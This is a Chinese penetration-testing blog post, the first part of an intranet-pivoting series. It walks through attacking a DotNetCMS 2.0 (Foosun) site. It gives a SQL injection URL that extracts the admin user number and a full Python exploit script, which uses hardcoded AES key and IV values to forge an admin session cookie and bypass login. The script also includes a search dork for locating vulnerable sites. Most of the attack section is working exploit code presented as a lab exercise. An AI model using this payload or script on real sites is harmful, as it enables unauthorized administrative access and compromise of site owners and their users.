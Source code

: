 ```yaml
---
ylayout:     post
title:      内网漫游【一】
subtitle:   web-内网渗透
date:       2019-06-09
author:     Threekb
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - 渗透测试
    - 内网渗透
    - 内网漫游
    - web渗透
---
```


# 内网漫游【一】

> ## **【实验环境】仅供学习参考**

## 【web渗透】

#### web信息收集：

* 登陆目标网站收集信息

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/1559712039(1).png)

* 前台页面没发现什么高危漏洞，并且用[御剑]扫描也并没有得到有价值的信息

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190605132355.png)

* 不过在前端源码中发现cms版本信息

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190605132454.png)

* 目标网站所用的DotNetCMS 2.0曾经爆发过一个登陆绕过漏洞，可以轻松找到

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190605132716.png)

#### 漏洞利用：

* 得知该cms存在一个注入漏洞，可以得出usernum，尝试利用
* 注入payload为`http://www.test.com/user/City_ajax.aspx?CityId=1' union all select UserNum,UserNum from dbo.fs_sys_User where UserName='admin`

* 输入该payload得到`admin`用户的UserNum

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/1559712762(1).png)

* 该网站后台利用UserNum，UserName，SiteID，adminLogined，uncert加密得到cookie然后验证进入后台

* 我们可以利用得到的usernum利用它本来的加密算法进行加密

**【EXP代码如下】：** 

```js
#coding:utf-8
import argparse
import urllib
import traceback
import base64
from Crypto.Cipher import AES
from binascii import b2a_hex, a2b_hex
###############################
##search keyword：           ##
##inurl:/manage/Login.aspx   ##
###############################
KEY = 'Guz(%&hj7x89H$yuBI0456FtmaT5&fvHUFCy76*h%(HilJ$lhj!y6&(*jkP87jH7'
IV = 'E4ghj*Ghg7!rNIfb&95GUY86GfghUb#er57HBh(u%g6HJ($jhWk7&!hg4ui%$hjk'
def parse_args():
  parser = argparse.ArgumentParser()
  parser.add_argument("-u", "--url", help="the url", required=True, nargs="+")
  return parser.parse_args()
def run(url):
  try:
      usernumber = get_usernumber(url)
      if usernumber is not None:
          encrypt_cookie = generate_cookie(usernumber)
          #写入cookie中
          write_cookie(url, encrypt_cookie)
  except Exception:
      traceback.print_exc()
def get_usernumber(url):
  fullurl = url + "/user/City_ajax.aspx?CityId=1' union all select UserNum,UserNum from dbo.fs_sys_User where UserName='admin"
  content = urllib.urlopen(fullurl).read()
  index = content.index("<option value=\"")
  if  index != -1:
      usernumber = content[index+15:]
      usernumber = usernumber[0: content.index("\"")+1]
      print "Get usernumber success. Usernumber is :", usernumber
      return usernumber
  else:
      print "Get usernumber fail"
      return None
def pkcs7padding(data):
  bs = AES.block_size
  padding = bs - len(data) % bs
  padding_text = chr(padding) * padding
  return data + padding_text
def generate_cookie(usernumber):
  orgstr = "%s,admin,0,1,False"%(usernumber,)
  cryptor = AES.new(KEY[0:32], AES.MODE_CBC, IV[0:16])
  ciphertext = cryptor.encrypt(pkcs7padding(orgstr))
  ciphertext = base64.b64encode(ciphertext)
  return ciphertext
def write_cookie(url, ciphercookie):
  print "Generate Cookie[SITEINFO]:", ciphercookie
  print "Now you can write cookie and access the url: %s/manage/index.aspx"%(url,)
if __name__ == '__main__':
  args = parse_args()
  try:
      if args.url is not None:
          run(args.url[0])
  except Exception, e:
      print "python Foosun_exp.py -u [url]"
```

* 利用上述exp代码注入得到usernum和加密后的cookie

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190609141441.png)

* 使用edit this cookie或者其他cookie编辑插件，输入刚刚加密所得的cookie进入后台

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190609141531.png)

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190609141631.png)

> ### **成功进入后台 ：）**
